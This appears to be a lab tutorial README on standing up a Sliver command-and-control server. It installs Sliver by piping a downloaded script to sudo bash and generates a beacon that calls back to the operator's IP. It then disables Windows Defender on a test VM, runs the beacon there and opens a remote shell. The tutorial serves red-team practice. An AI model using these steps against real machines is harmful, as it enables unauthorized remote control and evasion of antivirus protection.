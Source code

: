 # How To Create a C2 Server Using Sliver


This tutorial will cover how to setup a [Sliver](https://github.com/BishopFox/sliver) host  (*Tested with Ubuntu 20.04 but should work with other distributions*)

## Linux One-Liner Installation
To get started, the simplest way is to utilize their 'one-liner' installation.

Simply go to any terminal with elevated permissions and run

`curl https://sliver.sh/install | sudo bash`

This should begin the installation process for whatever version of Linux you are using.

> **Note: The Sliver host *can* be a Windows machine, but Sliver themselves advise against it as some features will not work as expected**

Before you run the service, you may want to install `mingw-w64` to allow DLL payloads and shellcode to be deployed.

To run the service, simply type `sliver` into your terminal and it should start up. 

**Before you start the service, please take note of your IP address using either `ip address` or `hostname -I` if not already known**

## Listeners
The most basic feature that we will be utilizing first is a listener. To start a listener, open sliver and input `http -l <port>`. You can also just run `http` to open the default port of 80. However, I used port 8080 as this will be useful in future steps when running the file server.

If you attempt to open a port that is already running a listener, your output will look like this:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4bf1145e-1ad9-4a5b-8aef-5432707c1191)

Whereas open ports should look like this:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/13167cbb-ec28-410d-be99-53834cf49d44)

For now, just open one listener at port 8080 and then continue on in this guide.

If you wish to see which listeners are running, type `jobs` into the terminal to see

## Beacons
The next step is to utilize this listener using a beacon. A beacon is a generated executable that once run on the machine to be infected (we'll get there soon), will allow you to run commands as said infected computer.

To create the beacon, you will run a command similar to the following:
`generate beacon -b <YOURLINUXIP>:8080`
![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/6fa50ec3-a52f-46a2-9417-b113cf6512c6)

This will create an executable which you will serve up to the machine that is to be 'infected' (for non-malicious purposes, of course)

## Serve Up Executable

The next step is somewhat up to personal preference and can be done in countless ways. The way I will be covering will be using python, but you can also use apache or any other http protocol file server of your choice. This step doesn't even need to necessarily be done using HTTP, as there are also DNS, TCP, and other methods of transferring this executable, but HTTP is the simplest, so that's the one we went with.

To start a webserver using python, first check that you have python installed on your machine (it does not need to be python3).

I would *highly recommend* hosting this server as a background process using & so that you can reopen sliver, although you could also run this server inside a container or on another page of your terminal if your machine supports that.

If you have python3, you can run this command: `python3 -m http.server &`. If you have a valid internet connection, you should get a response saying your machine is now hosting on 0.0.0.0:8000.

If you do not have python3, you can run this command: `python -m SimpleHTTPServer &`.

Both of these methods should result in the same outcome, with a simple http server hosting the files on your current directory.

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client

### What if I have a Linux Client?
(Look here!)[

### Disable Anti-Virus Protections
Infecting the Windows Machine will first and foremost require some changes to Windows Defender. Sadly, due to the popularity of this tool, Windows Defender has wisened up and will recognize the signature, not allowing you to run the executable otherwise. Locate the Virus & threat protection settings using the search bar:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/e5940d54-f229-4a8c-ac8d-5348e5e0735c)

Go to Virus & Threat protection settings:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/9453cae9-69e5-45d8-99af-656e03381fd1)

And at the bare minimum, disable Automatic sample submission:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/14c88c42-34e5-44f2-86c8-eee6e3af397e)

I went ahead and disabled all, as this is a virtual machine purely for the sake of testing and didn't want any impedence.

### Open Server on Any Internet Browser

Next, open any internet browser (I used Internet Explorer) and access the file server that was previously opened in the Serve Up Executable step.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/771bde13-a11d-44ef-a6a8-3a0ad32f5875)

What you should then find is a very simple webpage with the files listed at the directory where the executable is.
(You should only see one executable, unless you generated multiple like me)

> If there is no page found, then you probably are experiencing the same issue I was, which is... networking.
> To fix this, I utilized Port Forwarding on Virtualbox between my two machines, and a inter-machine NAT Network that took a while to figure out. Networking with virtual machines can be a huge pain, so if you like a guide, I would look [here](https://www.youtube.com/watch?v=t4qqir33snI)

Otherwise, you should see something like this

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/9ff21807-a837-4f85-8273-8cd8c4db1620)

Next, click on the hyperlink to the executable and run:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/5c3826c2-1326-4972-bd40-20b92a489d56)

Upon doing so, Sliver should hint that someone is falling for the trap!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/e39daf73-fadf-4e85-bcc9-6ffe44c517f3)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/58d94a92-6821-4ae1-9eb7-1d6441dabbdf)

Once the executable is done running, you are done with the client. You're in, that easy!

## The Door's Open, Now What?

Upon the executable finishing its execution, you should see this on your sliver host:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/fa5ba95f-5ea8-4a51-8bf1-7d0fdfc31e32)

You can type `beacons` into your terminal to see the newly infected computer available to your host (i've done this a few times):

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e3b5b35-65b8-4e43-a720-34925cf075dd)

### Open a Session
Next, you will open up a session with your infected client.

Simply type `use`, tab to auto fill the session id, and press enter on the desired session:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/53040da1-fe03-414f-8772-2c25fa2465f6)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/ed2a4b69-a89a-4c70-84d1-5e4c26b3884a)

Now that the session is open, you have a myriad of options available to you. I will not cover all of them, except an important one, which is opening a powershell session on the infected client.

### Powershell / BASH Session
*These instructions are the same for both Windows and Linux*

To open a shell, you will need to create an `interactive` session.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/659ad9b0-f5ec-4567-8ff7-a04b7b63343b)

To do so, first type `interactive` into your terminal.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/b45c64a1-a837-4b21-b4a0-bfd8906b69c9)

Open that new session using use (In the image above, the first part of the id you want to find is referenced, in this case `10329df6 ...`):

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/b91232d9-de5f-44a0-a555-e25908095612)

This will open an 'interactive' session which will allow you to run a shell (you may need to wait for the command to run, because beacons use a periodic execution strategy to avoid detection).

To confirm if you are in the correct session, your terminal should be red if you are in an interactive session.

Now, simply type `shell` into your terminal, accept the disclaimer, and you can now run powershell / bash commands on your client as if you were the user!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/bdbbf84b-ee17-4eb3-a44c-1ba6e713ea1f)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/6da377ef-b521-4609-b08f-c8cb283d08b1)

This shell can now be used to run atomic tests, or whatever else you could think to do with this.

Happy coding!





